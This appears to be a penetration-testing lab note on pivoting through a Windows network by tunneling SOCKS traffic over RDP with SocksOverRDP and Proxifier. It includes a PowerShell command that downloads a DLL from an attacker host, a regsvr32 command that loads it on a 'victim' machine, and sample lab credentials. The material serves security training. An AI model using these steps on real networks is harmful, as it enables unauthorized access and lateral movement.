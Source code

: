 ```yaml
---
description: >-
  There are often times during an assessment when we are limited to a Windows
  network and do not have access to SSH for pivoting. We have to use tools
  available for Windows in these cases.
---
```


# RDP and SOCKS Tunneling with SocksOverRDP

[SocksOverRDP ](https://github.com/nccgroup/SocksOverRDP)is an example of a tool that uses _**Dynamic Virtual Channels (DVC)**_ from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling pacakets over the RDP connection. For example, clipboard data transfer and audio sharing. _**However this feature can be used to tunnel arbitrary packets over the network.**_

We will use the tool [Proxifier](https://www.proxifier.com/) as our proxy server.



We can start by downloading the appropriate binaries to our attack host to perform this attack. Having the binaries on our attack host will allow us to transfer them to each target where needed. We will need:

1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

* We can look for `ProxifierPE.zip`

We can then connect to the target using xfreerdp and copy the `SocksOverRDPx64.zip` file to the target. From the Windows target, we will then need to load the SocksOverRDP.dll using regsvr32.exe.

```powershell
PS C:> Invoke-WebRequest -Uri "http://10.10.16.58:8081/SocksOverRDP-Plugin.dll" -OutFile "SocksOverRDP-Plugin.dll"
```

**Loading SocksOverRDP.dll using regsvr32.exe**



<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\Users\victim\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
</strong></code></pre>

\
Now we can connect to 172.16.5.19 over RDP using `mstsc.exe`, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials `victor:pass@123` to connect to 172.16.5.19.

When we go back to our foothold target and check with Netstat, we should see our SOCKS listener started on 127.0.0.1:1080.

**Confirming the SOCKS Listener is Started**

```powershell
C:\Users\victim\Desktop\SocksOverRDP-x64> netstat -antb | findstr 1080

  TCP    127.0.0.1:1080         0.0.0.0:0              LISTENING
```


